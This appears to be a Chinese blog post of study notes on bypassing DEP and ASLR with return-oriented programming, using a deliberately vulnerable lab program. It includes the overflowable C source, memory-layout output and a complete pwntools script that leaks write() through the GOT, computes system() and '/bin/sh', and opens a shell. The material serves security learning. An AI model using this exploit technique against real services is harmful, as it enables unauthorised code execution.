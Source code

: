 ```yaml
---
title: 通过ROP绕过DEP和ASLR防护
date: 2018-03-17 19:22:31
tags: PWN

---
```


## 0x00 前言

看蒸米师傅的一步一步学ROP做的笔记

<!--more-->

## 0x01 程序源代码：

和之前一样

​    

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
vulnerable_function();
write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

那么现在开启ASLR，

```
sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space
```

查看一下：

```
root@mask-virtual-machine:~/mzheng# cat /proc/sys/kernel/randomize_va_space
2
```

然后查看一下：
​    

```
root@mask-virtual-machine:~/mzheng# ldd ./level2
	linux-gate.so.1 =>  (0xb77e5000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7615000)
	/lib/ld-linux.so.2 (0x80020000)
root@mask-virtual-machine:~/mzheng# ldd ./level2
	linux-gate.so.1 =>  (0xb776a000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb759a000)
	/lib/ld-linux.so.2 (0x80047000)
root@mask-virtual-machine:~/mzheng# ldd ./level2
	linux-gate.so.1 =>  (0xb7714000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7544000)
	/lib/ld-linux.so.2 (0x8008c000)
root@mask-virtual-machine:~/mzheng# ldd ./level2
	linux-gate.so.1 =>  (0xb77e2000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7612000)
	/lib/ld-linux.so.2 (0x80020000)
root@mask-virtual-machine:~/mzheng# ldd ./level2
	linux-gate.so.1 =>  (0xb77b9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75e9000)
	/lib/ld-linux.so.2 (0x8001a000)
root@mask-virtual-machine:~/mzheng# ldd ./level2
	linux-gate.so.1 =>  (0xb7796000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c6000)
	/lib/ld-linux.so.2 (0x800c2000)
```

你会发现，libc.so的地址每次都不一样，一直在变化，那么怎么办呢？

> 思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。

这里结合蒸米师傅给的那张图

{%asset_img 1.png%}

栈，libc，heap的地址都是随机的，但是程序本身在内存中的地址并不是随机的

所以我们只要把返回值设置到程序本身就可执行我们期望的指令了

首先查看可以利用的plt函数以及对应的got表，这里提到的几个概念可以参考这篇文章 [Linux中的GOT和PLT到底是个啥？](http://www.freebuf.com/articles/system/135685.html "Linux中的GOT和PLT到底是个啥？")

```
root@mask-virtual-machine:~/mzheng# objdump -d -j .plt level2

level2： 文件格式 elf32-i386

    

Disassembly of section .plt:

080482f0 <read@plt-0x10>:
 80482f0:	ff 35 04 a0 04 08	pushl  0x804a004
 80482f6:	ff 25 08 a0 04 08	jmp*0x804a008
 80482fc:	00 00	add%al,(%eax)
	...

08048300 <read@plt>:
 8048300:	ff 25 0c a0 04 08	jmp*0x804a00c
 8048306:	68 00 00 00 00   	push   $0x0
 804830b:	e9 e0 ff ff ff   	jmp80482f0 <_init+0x28>

08048310 <__libc_start_main@plt>:
 8048310:	ff 25 10 a0 04 08	jmp*0x804a010
 8048316:	68 08 00 00 00   	push   $0x8
 804831b:	e9 d0 ff ff ff   	jmp80482f0 <_init+0x28>

08048320 <write@plt>:
 8048320:	ff 25 14 a0 04 08	jmp*0x804a014
 8048326:	68 10 00 00 00   	push   $0x10
 804832b:	e9 c0 ff ff ff   	jmp80482f0 <_init+0x28>
root@mask-virtual-machine:~/mzheng#
```

 

这里蒸米师傅解释的很清楚，我就摘抄了下来：

> 我们发现除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt ()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢? 这是因为linux采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）
>
> 因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

然后exp以及代码解释：
​    

```
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so') #这里调用了pwntools的ELF()函数，目的是为了后面算偏移地址
elf = ELF('level2')

p = process('./level2')
#p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr =0x0804843b
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

#payload1的作用相当于调用了一次write(1,gotwrite,4),打印出了got表处write函数位置的值，然后返回到vulfun函数

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

#即调用system("/bin/sh")

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()
```